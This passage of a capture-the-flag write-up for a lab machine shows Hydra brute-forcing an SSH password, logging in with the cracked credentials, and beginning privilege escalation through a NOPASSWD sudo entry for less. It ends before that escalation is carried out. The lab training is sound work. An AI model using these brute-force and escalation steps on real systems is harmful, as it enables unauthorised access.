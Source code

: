 For context:
- `-l` - specifies the known username
- `-P` - specifies a wordlist to pull passwords from and attempt to authenticate with.
- `-t` - specifies number of threads
- `ssh://target-ip` - names the IP address and protocol we are attempting to authenticate to with the provided credentials

The output from the above is:
```
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2023-09-12 21:07:15
[DATA] max 6 tasks per 1 server, overall 6 tasks, 10000 login tries (l:1/p:10000), ~1667 tries per task
[DATA] attacking ssh://target-ip:22/
[STATUS] 186.00 tries/min, 186 tries in 00:01h, 9814 to do in 00:53h, 6 active
[STATUS] 182.00 tries/min, 546 tries in 00:03h, 9454 to do in 00:52h, 6 active
[STATUS] 180.86 tries/min, 1266 tries in 00:07h, 8734 to do in 00:49h, 6 active
[22][ssh] host: target-ip   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2023-09-12 21:15:54
```

- We can see that Hydra successfully found the Jake user password to be set as: 987654321
- We can use this to authenticate to the machine via SSH and grab the user flag with the following syntax:
```bash
ssh jake@target-ip

The authenticity of host 'target-ip (target-ip)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'target-ip' (ECDSA) to the list of known hosts.
jake@target-ip's password: 987654321
Last login: Tue May 26 08:56:58 2020

jake@brookly_nine_nine:~$ 
```

We can further enumerate this machine by searching through directories. It is worth noting that there are 2 other user directories in the `/home` directory, belonging to `/amy` and `/holt`. The `user.txt` file can be found in the `/holt` directory. 

---
## Privilege Escalation
Typical Privilege Escalation begins with moving over enumeration scripts like LinPEASS and LinEnum for automation. While those run, it is a good idea to check `sudo` privileges with `sudo -l`. If some are found, checking them on GTFOBins is worthwhile.

- To start, I ran `sudo -l` to check privileges for the jake user. This was the output:
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
